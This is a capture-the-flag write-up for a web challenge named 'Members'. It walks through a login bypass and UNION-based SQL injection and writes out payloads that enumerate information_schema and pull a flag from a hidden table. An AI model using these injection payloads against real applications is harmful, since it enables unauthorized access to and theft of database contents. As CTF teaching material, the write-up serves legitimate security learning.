 # Members

## Description

![img](img/1.png)

## Solution

When i got the flag from this challenge i was really confused because the flag didn't match with any challenge
and i thought it was a fake flag or that the flag was from the authentication challenge but i was wrong, this flag was from a challenge that wasn't even announced so maybe i was one of the first guys that solved it correctly lol but i forgot to put the flag again until i wake up haha.

First i used a basic SQLI to login.

![img](img/2.png)

Then i look how did the query work and after some tests i thought it was a query with the LIKE operator.

![img](img/3.png)

As you can see after i searched "VO", the query matched a row and returned Stephane Schmitt-Pru"VO"st.
![img](img/4.png)
So, the query must be:

``` SELECT * FROM table WHERE field LIKE '%variable%'; ``` 

OR

``` SELECT * FROM table WHERE field LIKE "%variable%"; ``` 

Notice that the only difference are the quotes.

Possible SQLI:
``` SELECT * FROM table WHERE field LIKE "%variable%" and id=1;-- - %"; ```

And it worked, if i changed the id then the query returned a different member so let's try an UNION SELECT attack.

![img](img/5.png)

First, i needed to know how many columns the query returned and after some tests i knew that there were 3 columns.

![img](img/6.png)

Then, i writed data in the UNION SELECT attack just to test the data type that each column returned.

![img](img/7.png)

![img](img/8.png)

The next steps were:
<ul>
    <li>Get each database in the service.
    <p><code>%" UNION SELECT group_concat(schema_name), null, null FROM information_schema.schemata WHERE schema_name LIKE '%%' OR schema_name LIKE '%%';</code></p><br/>
    <img src="img/9.png"/>
    </li>
    <li>Get each table in the database.
    <p><code>%" UNION SELECT group_concat(table_name), null, null FROM information_schema.tables WHERE table_schema=database();-- -</code></p><br/>
    <img src="img/10.png"/>
    </li>
    <li>Get each column in each table or at least in the interesting ones.
    <p><code>%" UNION SELECT group_concat(column_name), null, null FROM information_schema.columns WHERE table_schema=database() AND table_name='supa_secret_table'-- -</code></p><br/>
    <img src="img/11.png"/>
    </li>
    <li>Search the flag in each row.
    <p><code>%" UNION SELECT GROUP_CONCAT(flag), null, null FROM supa_secret_table; -- -</code></p><br/>
    <img src="img/12.png"/>
    </li>
</ul>

That's how i got the flag.

```
Remember us, remember that we lived...
```